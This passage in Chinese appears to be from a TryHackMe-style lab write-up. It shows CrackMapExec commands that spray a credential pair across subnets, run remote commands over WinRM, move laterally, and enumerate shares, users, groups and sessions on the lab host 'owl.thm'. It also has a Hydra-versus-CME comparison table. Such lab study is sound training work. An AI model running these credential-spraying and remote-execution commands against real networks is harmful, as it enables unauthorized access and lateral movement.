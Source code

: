 ### **場景 2: 檢查憑證在多台機器上的有效性**
```bash
# 你拿到了一組憑證,想知道能登入哪些機器
crackmapexec smb 192.168.1.0/24 -u Jareth -p password123

# 輸出會顯示哪些機器可以登入
```

### **場景 3: 快速列舉**
```bash
# 不需要登入,直接執行命令
crackmapexec winrm owl.thm -u Jareth -p password123 -x "dir C:\Users"

# 比起:
evil-winrm -i owl.thm -u Jareth -p password123
# 然後在裡面打命令
```

### **場景 4: 橫向移動**
```bash
# 在企業網路中,用同一組憑證測試多台機器
crackmapexec smb 10.10.0.0/24 -u Jareth -p password123 --continue-on-success
```

## 📊 Hydra vs CME 比較表

| 功能           | Hydra    | CrackMapExec   |
| -------------- | -------- | -------------- |
| **暴力破解**   | ✅ 擅長   | ⚠️ 可以但較慢   |
| **驗證憑證**   | ⚠️ 不準確 | ✅ 準確         |
| **檢查權限**   | ❌ 不行   | ✅ 可以         |
| **執行命令**   | ❌ 不行   | ✅ 可以         |
| **列舉資訊**   | ❌ 不行   | ✅ 可以         |
| **多協議支援** | ✅ 很多   | ✅ Windows 專用 |
| **速度**       | ⚡ 快     | 🐢 較慢         |

## 🔧 實用 CME 命令

### **基本驗證**
```bash
# 測試憑證
crackmapexec smb owl.thm -u Jareth -p password123
crackmapexec winrm owl.thm -u Jareth -p password123
```

### **列舉**
```bash
# 列舉共享
crackmapexec smb owl.thm -u Jareth -p password123 --shares

# 列舉用戶
crackmapexec smb owl.thm -u Jareth -p password123 --users

# 列舉群組
crackmapexec smb owl.thm -u Jareth -p password123 --groups

# 列舉登入的用戶
crackmapexec smb owl.thm -u Jareth -p password123 --sessions
```